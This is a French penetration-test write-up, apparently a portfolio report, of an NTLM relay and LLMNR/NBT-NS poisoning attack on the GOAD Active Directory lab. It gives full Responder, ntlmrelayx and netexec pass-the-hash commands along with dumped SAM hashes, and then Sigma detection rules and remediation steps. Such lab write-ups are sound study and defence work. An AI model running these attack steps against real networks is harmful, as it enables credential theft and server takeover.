



# SC-AD-003 — NTLM Relay & Poisoning

---

## 1. Classification

| Attribut | Valeur |
|----------|--------|
| **ID Scénario** | SC-AD-003 |
| **Titre** | NTLM Relay & Poisoning |
| **Entreprise cible** | MediaTech Groupe SA |
| **Environnement** | GOAD v3 — Active Directory multi-forêts |
| **Référence Mayfly** | Part 4 — https://mayfly277.github.io/posts/GOADv2-pwning-part4/ |
| **MITRE ATT&CK** | T1557.001 (LLMNR/NBT-NS Poisoning), T1550.002 (Pass-the-Hash) |
| **CVSS Score** | 9.0 (Critical) |
| **Prérequis** | Accès réseau VLAN10, aucun credential requis |
| **Résultat** | Admin local CASTELBLACK + BRAAVOS compromis |
| **Date** | 28 février 2026 |
| **Auteur** | hik3nR00t |

---

## 2. Résumé Exécutif

### Pour un recruteur

Démonstration d'une attaque NTLM Relay réussie sans aucun credential initial. En exploitant les protocoles de résolution de noms LLMNR et NBT-NS, des comptes de service ont été interceptés et relayés vers des serveurs sans signature SMB, permettant l'extraction complète des bases SAM locales et la compromission totale de deux serveurs critiques de MediaTech Groupe SA.

### Pour un auditeur ISO 27001 / NIS2

- **Vulnérabilité principale :** Protocoles LLMNR et NBT-NS actifs sur le réseau interne — permettent l'empoisonnement broadcast sans authentification préalable
- **Absence de signature SMB :** CASTELBLACK et BRAAVOS ont `signing:False` — toute authentification NTLM peut être relayée sans détection cryptographique
- **Impact sur la disponibilité (ISO 27001 A.12.1) :** Accès non autorisé aux systèmes de production
- **Impact sur la confidentialité (ISO 27001 A.10.1) :** Extraction des hashes de mots de passe locaux
- **Non-conformité NIS2 Article 21 :** Absence de mesures de sécurité réseau de base (désactivation LLMNR, signature SMB obligatoire)
- **Non-conformité RGPD Article 32 :** Mesures techniques insuffisantes pour garantir la sécurité des traitements

### Pour un RSSI

L'attaque ne nécessite aucun credential, aucun exploit de vulnérabilité CVE, et peut être exécutée depuis n'importe quel poste connecté au réseau interne. Le délai de compromission est inférieur à 5 minutes. Les deux serveurs hébergeant des services MSSQL critiques pour MediaTech sont intégralement compromis.

---

## 3. Diagramme Réseau



---

## 4. Kill Chain



---

## 5. Scope & Méthodologie

**Périmètre :** VLAN10 — 192.168.10.0/24

**Outils utilisés :**
- netexec — énumération SMB et validation PTH
- Responder 3.2.2.0 — empoisonnement LLMNR/NBT-NS/mDNS
- Impacket ntlmrelayx 0.9.24 — relay NTLM et SAM dump

**Approche :** Black box — aucun credential fourni en entrée. Exploitation uniquement via position réseau sur VLAN10.

---

## 6. Phases d'Exploitation

### Phase 1 — Énumération SMB (signing check)

```bash
netexec smb 192.168.10.0/24
```

**Output :**
```
SMB  192.168.10.10  KINGSLANDING   signing:True   SMBv1:False
SMB  192.168.10.11  WINTERFELL     signing:True   SMBv1:False
SMB  192.168.10.12  MEEREEN        signing:True   SMBv1:True
SMB  192.168.10.22  CASTELBLACK    signing:False  SMBv1:False  ← CIBLE
SMB  192.168.10.23  BRAAVOS        signing:False  SMBv1:True   ← CIBLE
```

**Analyse :** Les DCs (signing:True) sont immunisés au relay SMB. CASTELBLACK et BRAAVOS sont relayables.

---

### Phase 2 — Configuration Responder

Désactivation SMB et HTTP dans Responder pour laisser ntlmrelayx gérer le port 445 :

```bash
# /opt/Responder/Responder.conf
SMB = Off
HTTP = Off
```

---

### Phase 3 — Préparation des cibles

```bash
cat > ~/targets.txt << EOF
192.168.10.22
192.168.10.23
EOF
```

---

### Phase 4 — Lancement ntlmrelayx (Terminal 1)

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py \
  -tf ~/targets.txt \
  -smb2support
```

**Output clé :**
```
[*] Setting up SMB Server on port 445
[*] Servers started, waiting for connections
```

---

### Phase 5 — Lancement Responder (Terminal 2)

```bash
sudo python3 /opt/Responder/Responder.py -I ens18 -wv
```

**Output clé :**
```
Responder NIC     [ens18]
Responder IP      [192.168.10.50]
LLMNR             [ON]
NBT-NS            [ON]
MDNS              [ON]
SMB server        [OFF]
[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 192.168.10.11 for name BRAVOS
[*] [LLMNR]  Poisoned answer sent to 192.168.10.11 for name Bravos
```

---

### Phase 6 — Capture et relay automatique

Les bots GOAD déclenchent automatiquement :
- `robb.stark` — connexion SMB toutes les 3 minutes
- `eddard.stark` — connexion SMB toutes les 5 minutes

**Output ntlmrelayx :**
```
[*] SMBD-Thread-4: Connection from NORTH/ROBB.STARK@192.168.10.11 controlled, attacking smb://192.168.10.22
[*] Authenticating against smb://192.168.10.22 as NORTH/ROBB.STARK SUCCEED
[*] SMBD-Thread-4: Connection from NORTH/ROBB.STARK@192.168.10.11 controlled, attacking smb://192.168.10.23
[*] Authenticating against smb://192.168.10.23 as NORTH/ROBB.STARK SUCCEED
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied  ← robb.stark non admin

[*] SMBD-Thread-8: Connection from NORTH/EDDARD.STARK@192.168.10.11 controlled, attacking smb://192.168.10.22
[*] Authenticating against smb://192.168.10.22 as NORTH/EDDARD.STARK SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x7e065e2103d6ee582c54423d701f00d5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Done dumping SAM hashes for host: 192.168.10.22
```

**Analyse :** robb.stark est relayé avec succès mais n'est pas admin local → access denied. eddard.stark est admin local sur CASTELBLACK → SAM dump automatique.

---

### Phase 7 — Validation Pass-the-Hash

```bash
# CASTELBLACK
netexec smb 192.168.10.22 -u Administrator -H dbd13e1c4e338284ac4e9874f7de6ef4
```

**Output :**
```
SMB  192.168.10.22  CASTELBLACK  [+] north.sevenkingdoms.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4 (Pwn3d!)
```

```bash
# BRAAVOS — SAM dump via khal.drogo (déjà compromis SC-AD-002)
netexec smb 192.168.10.23 -u khal.drogo -p 'Password123!' --sam
```

**Output :**
```
SMB  192.168.10.23  BRAAVOS  [+] essos.local\khal.drogo:Password123! (Pwn3d!)
SMB  192.168.10.23  BRAAVOS  Administrator:500:aad3b435b51404eeaad3b435b51404ee:ba5fa75e6a4c5da5ff2d682a94793abb:::
```

```bash
# Validation PTH BRAAVOS — auth locale obligatoire
netexec smb 192.168.10.23 -u Administrator -H ba5fa75e6a4c5da5ff2d682a94793abb --local-auth
```

**Output :**
```
SMB  192.168.10.23  BRAAVOS  [+] BRAAVOS\Administrator:ba5fa75e6a4c5da5ff2d682a94793abb (Pwn3d!)
```

---

## 7. Credentials Récupérés

| Machine | Compte | Hash NTLM | Méthode | Privilège |
|---------|--------|-----------|---------|-----------|
| CASTELBLACK | Administrator | `dbd13e1c4e338284ac4e9874f7de6ef4` | NTLM Relay → SAM dump | Admin local |
| CASTELBLACK | vagrant | `e02bc503339d51f71d913c245d35b50b` | SAM dump | User local |
| BRAAVOS | Administrator | `ba5fa75e6a4c5da5ff2d682a94793abb` | SAM dump via khal.drogo | Admin local |
| BRAAVOS | vagrant | `e02bc503339d51f71d913c245d35b50b` | SAM dump | User local |

---

## 8. Impact Technique

- **Compromission totale** de deux serveurs membres (CASTELBLACK, BRAAVOS) sans aucun credential initial
- **Accès administrateur local** permettant : dump LSASS, installation d'implants, pivot réseau
- **Hashes récupérés** exploitables immédiatement via PTH sans cracking
- **Vecteur de pivot** vers les domaines north.sevenkingdoms.local et essos.local
- **Services exposés :** MSSQL (CASTELBLACK + BRAAVOS), IIS (CASTELBLACK)

> Ce scénario NTLM Relay alimente directement le scénario **SC-AD-006 — MSSQL Pivot**, en fournissant un accès administrateur local sur les serveurs MSSQL CASTELBLACK et BRAAVOS, préalable au pivot applicatif via linked servers.

---

## 9. Impact Métier — MediaTech Groupe SA

### Synthèse
En empoisonnant les résolutions de noms (LLMNR / NBT-NS actifs par défaut) puis en **relayant** l'authentification NTLM vers des serveurs qui **n'imposent pas la signature SMB**, l'attaquant obtient un **accès administrateur local** sur des serveurs de production (dont MSSQL), dump la base SAM et rejoue les empreintes (Pass-the-Hash). On reste au **niveau serveur** — pas encore de dominance domaine — mais ces serveurs portent des briques applicatives. Le vecteur n'exploite **aucune CVE** : uniquement des protocoles hérités laissés actifs sur 20 ans de SI.

### Gravité : 🟠 ÉLEVÉ *(admin local sur serveurs de prod ; tremplin latéral, dominance domaine non atteinte)*

### Impact chiffré

| Poste | Estimation | Hypothèse |
|---|---|---|
| Perturbation applicative / éditoriale | 140 k€ – 300 k€ | Si les serveurs relayés portent des briques CMS/SQL : 1–2 jours de production dégradée (137 k€/jour). |
| Exposition RGPD (Art. 32) | 150 k€ – 800 k€ | Si un serveur compromis héberge une base à données perso (abonnés/RH). Fourchette réaliste < plafond. |
| Réponse à incident + durcissement réseau | 80 k€ – 200 k€ | Déploiement LAPS, activation signature SMB, extinction LLMNR/NBT-NS, revue des comptes admin locaux, PtH hunting. |
| **Total réaliste** | **~370 k€ – 1,3 M€** | Bascule en **CRITIQUE** si un hash relayé/rejoué mène à un compte à privilèges domaine. |

> **Réalité rédaction** : LLMNR et NBT-NS allumés partout, SMB signing jamais imposé sur les serveurs membres — c'est l'état par défaut d'un parc Windows qui a grossi sans jamais être durci. Un poste de rédacteur qui cherche un partage mal orthographié suffit à déclencher le relais.

### Réglementaire
- **RGPD Art. 32** — protocoles d'authentification non sécurisés (NTLM relayable) = mesure technique inadéquate.
- **NIS2 Art. 21** — sécurité des réseaux et hygiène d'authentification.
- **ISO 27001 A.8.20** (sécurité des réseaux), **A.8.21** (sécurité des services réseau), **A.8.5** (authentification sécurisée).

### Décision COMEX
- **Imposer la signature SMB obligatoire par GPO** et **désactiver LLMNR/NBT-NS** après test d'impact sur les applicatifs legacy — arbitrage DSI sous 1 semaine, c'est un quick win à budget quasi nul.
- **Déployer LAPS** (mots de passe admin local uniques et rotés) pour couper la réutilisation d'empreintes entre serveurs, et **isoler les serveurs MSSQL sur un VLAN dédié** avec ACL strictes.

## 10. Détection SOC / SIEM

### Event IDs Windows

| Event ID | Source | Description |
|----------|--------|-------------|
| 4624 | Security | Logon réussi — Type 3 (réseau) depuis IP inattendue |
| 4648 | Security | Logon avec credentials explicites |
| 7045 | System | Nouveau service installé (RemoteRegistry démarré par ntlmrelayx) |
| 4657 | Security | Modification registre (lecture SAM) |

### Règle Sigma — NTLM Relay Detection

```yaml
title: NTLM Relay — RemoteRegistry Service Started by Network Logon
status: experimental
logsource:
  product: windows
  service: system
detection:
  selection:
    EventID: 7045
    ServiceName: RemoteRegistry
  timeframe: 5m
  condition: selection
falsepositives:
  - Administration légitime via RemoteRegistry
level: high
tags:
  - attack.credential_access
  - attack.t1557.001
```

### Règle Sigma — LLMNR Traffic from Non-DC Host

```yaml
title: Suspicious LLMNR Traffic from Non-DC Host
status: experimental
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5156
    ApplicationName|endswith: '\python.exe'
    Direction: 'Outbound'
    DestPort: 5355
  condition: selection
falsepositives:
  - Scripts internes utilisant LLMNR (rare)
level: medium
tags:
  - attack.credential_access
  - attack.t1557.001
```

### IOC

- Trafic LLMNR/mDNS inhabituel depuis une IP non DC
- Connexions SMB de type réseau (type 3) depuis des IPs inattendues vers plusieurs serveurs en quelques minutes
- Service RemoteRegistry démarré automatiquement hors plage de maintenance

---

## 11. Remédiation Secure by Design

### 0-24h (urgence)

```powershell
# Désactiver LLMNR via GPO
# Computer Configuration > Administrative Templates > Network > DNS Client
# "Turn off multicast name resolution" = Enabled

# Désactiver NBT-NS (via registre sur chaque machine ou GPO)
$adapters = Get-WmiObject Win32_NetworkAdapterConfiguration
foreach ($a in $adapters) { $a.SetTcpipNetbios(2) }

# Activer signature SMB obligatoire
Set-SmbServerConfiguration -RequireSecuritySignature $true -Force
Set-SmbClientConfiguration -RequireSecuritySignature $true -Force
```

### 1 semaine

```powershell
# Déployer LAPS — rotation automatique mots de passe admins locaux
Install-Module LAPS
Set-LapsADComputerSelfPermission -Identity "OU=Servers,DC=north,DC=sevenkingdoms,DC=local"
```

### 1 mois

- Déployer LAPS (Local Administrator Password Solution) sur tous les serveurs membres
- Implémenter la micro-segmentation réseau — VLAN MSSQL isolé
- Activer la journalisation avancée Netlogon et l'audit des connexions réseau
- Mettre en place un honeypot LLMNR pour détecter les attaques futures

---

## 12. Architecture Cible Sécurisée



---

## 13. Références

- Mayfly277 GOAD Part 4 — https://mayfly277.github.io/posts/GOADv2-pwning-part4/
- MITRE ATT&CK T1557.001 — https://attack.mitre.org/techniques/T1557/001/
- Impacket ntlmrelayx — https://github.com/fortra/impacket
- Responder — https://github.com/lgandx/Responder
- Microsoft LAPS — https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview

---

---

### Annexe — mitm6 + WPAD (non testé — limitation lab)

mitm6 empoisonne les réponses DHCPv6 pour se positionner en serveur DNS IPv6, interceptant les requêtes WPAD et forçant l'authentification NTLM. La technique nécessite un accès L2 direct au réseau de la victime pour le spoofing DHCPv6. Le tunnel WireGuard utilisé dans ce lab est un tunnel L3 pur — pas de couche L2, pas de broadcast DHCPv6. mitm6 est incompatible avec cette architecture. En pentest réel sur un réseau L2, cette technique est extrêmement efficace et automatisable.

---

*HikenRoot Forge — SC-AD-003 — hik3nR00t — 28 février 2026*
